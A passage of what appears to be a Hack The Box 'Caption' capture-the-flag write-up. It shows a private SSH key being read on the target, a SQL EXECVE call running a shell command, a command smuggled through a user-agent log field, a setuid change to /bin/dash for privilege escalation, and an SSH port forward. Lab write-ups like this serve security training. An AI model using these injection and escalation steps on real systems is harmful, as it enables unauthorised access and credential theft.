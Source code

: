 ![](_/htb-caption-20240920-4.png)

```console
margo@caption:~$ cat .ssh/id_ecdsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS1zaGEy
LW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQTlvYEMXbgPL/2LQ06y0jcnmuu/FAc9u6+RLVtsYj54
iiSWDDN+QKYJIDczKObUXAvGPL+pSJLWmrBefYiXfNUnAAAAoPhh9qX4YfalAAAAE2VjZHNhLXNo
YTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOW9gQxduA8v/YtDTrLSNyea678UBz27r5EtW2xi
PniKJJYMM35ApgkgNzMo5tRcC8Y8v6lIktaasF59iJd81ScAAAAgcLzcUqapsvrlklkN7uum8K6n
4xaWByfWDZ/5uZuQzhIAAAAAAQIDBAUGBwg=
-----END OPENSSH PRIVATE KEY-----
```

MUCH SIMPLER alternative to the above:

```sql
CALL EXECVE('cat /home/margo/.ssh/id_ecdsa');
```

## Privilege Escalation

On target, `/dev/shm/x.log`:

```text
127.0.0.1 "user-agent":"'; /bin/bash /dev/shm/x.sh #"
```

On target, `/dev/shm/x.log`:

```sh
chmod +s /bin/dash
```

Forward the Thrift port:

`ssh -i id_ecdsa -L 9090:localhost:9090 margo@caption.htb`
